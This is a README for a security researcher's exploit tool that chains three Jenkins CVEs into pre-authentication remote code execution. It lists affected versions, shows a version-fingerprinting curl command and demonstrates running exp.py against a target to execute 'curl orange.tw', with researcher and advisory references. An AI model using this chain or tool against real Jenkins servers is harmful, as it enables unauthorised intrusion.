 # awesome-jenkins-rce-2019

There is no pre-auth RCE in Jenkins since May 2017, but this is the one!

It chains CVE-2018-1000861, CVE-2019-1003005 and CVE-2019-1003029 to a more reliable and elegant pre-auth remote code execution!


# Affect list

* ANONYMOUS_READ disable
    - Jenkins version < 2.138

* ANONYMOUS_READ enable(or with a normal user account)
    - Jenkins build time < 2019-01-28



# Usage

```bash
$ curl -s -I http://jenkins/| grep X-Jenkins
X-Jenkins: 2.137
X-Jenkins-Session: 20f72c2e
X-Jenkins-CLI-Port: 50000
X-Jenkins-CLI2-Port: 50000

$ python exp.py http://jenkins/ 'curl orange.tw'
[*] ANONYMOUS_READ disable!
[*] Bypass with CVE-2018-1000861!
[*] Exploit success!(it should be :P)
```
![1.gif](img/1.gif)

# Tested on

* Jenkins 2.53
* Jenkins 2.122
* Jenkins 2.137
* Jenkins 2.138 with ANONYMOUS_READ enable
* Jenkins 2.152 with ANONYMOUS_READ enable
* Jenkins 2.153 with ANONYMOUS_READ enable
* Script Security Plugin 1.43
* Script Security Plugin 1.48


# Acknoledgements

* [@orange_8361](https://twitter.com/orange_8361) for CVE-2018-1000861
* [@0ang3el](https://twitter.com/0ang3el) for CVE-2019-1003005
* [@webpentest](https://twitter.com/webpentest) for CVE-2019-1003029


Part slides from my HITB AMS 2019 talk:

![1.png](img/1.png)
![2.png](img/2.png)
![3.png](img/3.png)



# References

* [Hacking Jenkins Part 1 - Play with Dynamic Routing](https://blog.orange.tw/2019/01/hacking-jenkins-part-1-play-with-dynamic-routing.html)
* [Hacking Jenkins Part 2 - Abusing Meta Programming for Unauthenticated RCE!](https://blog.orange.tw/2019/02/abusing-meta-programming-for-unauthenticated-rce.html)
* [Jenkins Security Advisory 2018-12-05](https://jenkins.io/security/advisory/2019-12-05/)
* [Jenkins Security Advisory 2019-01-28](https://jenkins.io/security/advisory/2019-01-28/)
* [Jenkins Security Advisory 2019-03-06](https://jenkins.io/security/advisory/2019-03-06/)
